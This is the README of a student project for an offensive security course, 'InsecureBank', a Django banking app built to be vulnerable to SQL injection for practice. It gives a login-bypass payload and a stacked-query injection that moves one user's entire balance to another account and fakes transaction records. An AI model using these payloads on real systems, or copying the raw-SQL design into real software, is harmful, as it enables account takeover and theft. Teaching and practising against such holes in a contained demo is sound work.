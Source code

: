 # SQL Injection Demo - 'InsecureBank'

My final project built for cs4001, Offensive Security, taught by Sean Wagner.

This project, a simple banking app, is designed to demonstrate SQL injection vulnerabilities in a web app with unsanitized input fields that execute raw sql queries. It ships with a dockerfile so this project can be run on any machine with docker as a nicely packaged demo for someone wanting to experiment with this type of vulnerability.

# What I Learned
* A form input is vulnerable to SQL injection when we don't sanitize our inputs and execute raw SQL directly.
* Depending on how the SQL is executed on the backend, an input field may only be vulnerable to modifying a single query (using statements like AND, OR), or multiple queries (separated by a semicolon to end a sql statement). This demo has been made as vulnerable as possible by allowing multiple sql statements to be executed at once.
* The Django framework does a great job guarding against this type of vulnerability with its out-of-the-box login and registration forms. I had to go out of my way by making custom forms to create this vulnerability.


# Running the app locally

Recommended method using Docker:

```
docker build -t demo .
docker run -p 8000:8000 demo
```

Alternative method without Docker:

```
python3 manage.py runserver
```

Dev server http://localhost:8000/

# SQL Injections you can try (EASY):
Enter a username into the login field followed by ' or '1'='1
This will let you bypass the password and login as that user.

```
' or '1'='1
```

# SQL Injections you can try (COMPLEX):
Given that you have created two users, 'demo' and 'hackerman' for this example, paste the following into the username field. An error will be thrown, but the statement will still execute. This query will transfer the entire balance from account with username 'demo' to account 'hackerman'

```
'; UPDATE bank_bankaccount
SET balance = balance + (SELECT balance FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'))
WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman');

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman')),
  (SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'All of demo users money!',
  'Deposit',
  '0'
);

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  -1*(SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'Youve been hacked by the infamous Hackerman!',
  'Withdrawal',
  '0'
);

UPDATE bank_bankaccount
SET balance = 0
WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'); 

SELECT * FROM auth_user WHERE username='fail
```

# Final Notes

This project was built in the span of 24 hours, so there is room left for improvement. While the vulnerability does work, the database design is not the best. The transaction table should not be a table that gets updated manually, but rather automatically when the bankaccount table gets modified. This would greatly simplify the complex example above and make the demo more realistic.